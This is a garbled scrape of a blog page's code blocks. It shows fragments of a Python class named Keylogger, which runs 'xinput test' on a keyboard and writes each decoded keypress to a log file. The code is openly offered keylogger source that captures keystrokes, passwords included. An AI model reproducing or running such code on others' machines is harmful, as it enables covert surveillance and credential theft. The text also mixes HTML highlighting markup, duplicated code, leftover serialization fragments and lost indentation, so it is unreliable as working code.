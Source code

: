 ```yaml
    <span style="color: #008000;">self</span>._log<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span></pre></td></tr></table><p class="theCode" style="display:none;">class Keylogger(Thread):
    &quot;&quot;&quot;Keylogger for a single keyboard&quot;&quot;&quot;
    def __init__(self, keyboard):
    Thread.__init__(self)
    self._keyboard = keyboard
    self._filename = 'keyboard%d.log' % self._keyboard
    self._file = open(self._filename, 'w+')
    self.__define_constants()
    
    def __del__(self):
    self.__exit__()
    
    def __exit__(self):
    self._file.close()
    
    def run(self):
    self._log()</p></div>
    ;i:8;s:2936:
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="python" style="font-family:monospace;">    <span style="color: #ff7700;font-weight:bold;">def</span> _log<span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>:
    logger <span style="color: #66cc66;">=</span> bash.<span style="color: black;">xinput</span><span style="color: black;">&#40;</span><span style="color: #483d8b;">&quot;test&quot;</span><span style="color: #66cc66;">,</span> <span style="color: #008000;">self</span>._keyboard<span style="color: #66cc66;">,</span> _iter<span style="color: #66cc66;">=</span><span style="color: #008000;">True</span><span style="color: black;">&#41;</span>
    keymap <span style="color: #66cc66;">=</span> <span style="color: #008000;">self</span>._get_keymap<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">try</span>:
    <span style="color: #ff7700;font-weight:bold;">for</span> line <span style="color: #ff7700;font-weight:bold;">in</span> logger:
    match <span style="color: #66cc66;">=</span> KEYPRESS_REGEX.<span style="color: black;">match</span><span style="color: black;">&#40;</span>line<span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">if</span> match:
    keycode <span style="color: #66cc66;">=</span> match.<span style="color: black;">groups</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span><span style="color: black;">&#91;</span><span style="color: #ff4500;">0</span><span style="color: black;">&#93;</span>
    key <span style="color: #66cc66;">=</span> keymap<span style="color: black;">&#91;</span>keycode<span style="color: black;">&#93;</span>
    <span style="color: #008000;">self</span>._writen_file<span style="color: black;">&#40;</span>key<span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">except</span> <span style="color: #008000;">Exception</span>:
    <span style="color: #ff7700;font-weight:bold;">print</span> <span style="color: #483d8b;">&quot;Salved into %s&quot;</span> % <span style="color: #008000;">self</span>._filename</pre></td></tr></table><p class="theCode" style="display:none;">    def _log(self):
    logger = bash.xinput(&quot;test&quot;, self._keyboard, _iter=True)
    keymap = self._get_keymap()
    try:
    for line in logger:
    match = KEYPRESS_REGEX.match(line)
    if match:
    keycode = match.groups()[0]
    key = keymap[keycode]
    self._writen_file(key)
    except Exception:
    print &quot;Salved into %s&quot; % self._filename</p></div>
    ;i:9;s:20088:
```